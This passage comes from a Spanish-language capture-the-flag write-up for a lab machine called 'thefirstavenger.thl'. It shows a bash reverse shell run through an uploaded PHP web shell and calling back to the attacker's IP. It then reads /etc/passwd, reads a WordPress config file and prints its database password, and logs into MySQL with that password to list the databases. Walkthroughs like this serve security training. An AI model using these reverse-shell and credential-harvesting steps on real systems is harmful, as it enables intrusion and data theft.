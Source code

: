 ```bash
# Reverse shell o acceso inicial
http://thefirstavenger.thl/wp1/wp-content/uploads/shell.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.100.24/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos enumeracion de usuarios
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
steve:x:1000:1000:Steve Rogers:/home/steve:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Enumerando el directorio de este usuario, tenemos lo siguiente: **wp-config.php**, Si revisamos su contenido:
```bash
cat wp-config.php
```

```php
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpress' );

/** Database password */
define( 'DB_PASSWORD', '9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Tenemso credenciales de acceso, y para conectarnos
```bash
mysql -u wordpress -p # ( 9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r )
```

Una ves conectados, Enumeramos las bases de datos:
```mysql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| top_secret         |
| wordpress          |
+--------------------+
```
